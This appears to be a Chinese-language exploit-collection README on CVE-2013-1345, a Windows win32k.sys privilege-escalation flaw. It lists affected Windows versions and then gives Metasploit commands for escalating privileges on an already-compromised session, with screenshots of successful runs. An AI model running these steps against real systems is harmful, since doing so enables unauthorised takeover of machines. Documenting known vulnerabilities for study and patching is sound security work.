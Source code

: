 ### CVE-2013-1345

#### 描述

内核模式驱动程序中的win32k.sys不会 正确处理内存中的对象，这允许本地用户通过精心设计的应用程序获得特权。

#### 影响版本

| Product             | CPU Architecture | Version | Update | Tested             |
| ------------------- | ---------------- | ------- | ------ | ------------------ |
| Windows 7           |                  |         | SP1    | &#10004; |
| Windows 8           |                  |         |        |                    |
| Windows Rt          |                  |         |        |                    |
| Windows Server 2003 |                  |         | SP2    |                    |
| Windows Server 2008 |                  |         | SP2    | &#10004; |
| Windows Server 2008 |                  | R2      | SP1    | &#10004; |
| Windows Server 2012 |                  |         |        |                    |
| Windows Vista       |                  |         | SP2    |                    |
| Windows Xp          |                  |         | SP2    |                    |
| Windows Xp          |                  |         | SP3    |                    |

#### 利用方式

> X86利用

测试系统Windows 7 SP1 x86 ，直接使用msf即可，我们当机器已经上线了

```
use exploit/windows/local/ms13_053_schlamperei
set SESSION 2 #你上线机器的session
run
```

![image-20200822151416515](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2013-1345_win7_x86.png)

Windows Sever 2003 SP2 x86 和Windows Sever 2003 R2 SP2 x86都测试成功，但是利用文件没有源码只有exe可执行文件

Windows Sever 2003 SP2 x86 动图如下

![17](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2013-1345_win2003_x86.gif)

Windows Sever 2003 R2 SP2 x86 动图如下

![18](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2013-1345_win2003_x86_2.gif)

